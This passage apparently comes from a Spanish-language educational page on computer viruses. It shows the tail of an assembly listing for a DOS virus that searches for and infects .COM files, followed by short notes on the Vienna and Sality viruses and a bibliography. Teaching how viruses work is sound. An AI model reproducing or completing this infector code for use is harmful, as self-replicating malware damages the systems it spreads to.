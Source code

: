     mov ah, 3Eh                           ; | AH = 3Eh  
    int 21h                               ; |_DOS API - Cerrar archivo

    jnc find_next                         ; si CF=0, buscar siguiente archivo 

exit:   
    mov cx, 0100h  
    jmp cx                                ; saltar a CS:0100 y ejecutar huésped

search_str    db   "*.COM", 00h           ; nombre comodín de búsqueda  
host_head     db   90h, 90h, 90h          ; buffer para cabezal original  
VIRUS_SIZE    equ  ($ - body)             ; tamaño del virus  
tmp_head      db   3 dup (?)              ; buffer temporal para el cabezal viral

virus ends  
end start  
{% endhighlight %}

## Casos reales
* El virus *Vienna* fue aislado por primera vez en Abril de 1988 en Moscú. Se trata de un virus
  no residente, infector de archivos *COM* por acción directa. Como su código fuente se hizo
  público, aparecieron muchas variantes del mismo.
* La familia de virus *Sality* es un ejemplo moderno de virus polimórficos que infectan archivos
  ejecutables de Windows con extensión *.exe* o *.scr*. Desde su descubrimiento inicial, las
  variantes de esta familia se han vuelto más sofisticadas.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 